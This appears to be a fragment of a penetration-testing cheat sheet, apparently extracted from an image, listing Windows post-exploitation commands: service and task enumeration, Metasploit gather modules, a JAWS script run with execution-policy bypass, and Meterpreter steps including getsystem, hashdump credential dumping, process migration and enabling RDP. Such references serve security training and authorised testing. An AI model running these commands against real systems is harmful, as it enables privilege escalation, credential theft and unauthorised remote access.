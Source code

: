 ## Services
ps
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST
schtasks /query /fo LIST /v

# Metasploit
use post/windows/gather/enum_logged_on_users
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares

# JAWS - Automatic Local Enumeration - Powershell
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename Jaws-Enum.txt
</code></pre>

### **HTTP/HFS**

```bash
# Meterpreter
sysinfo
getuid
getsystem
getuid
getprivs
hashdump
show_mount
ps
migrate

# msfconsole
use post/windows/manage/migrate
use post/windows/gather/win_privs #CHECK UAC/Privileges
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_av_excluded
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares
use post/windows/manage/enable_rdp
set SESSION 1

loot
```
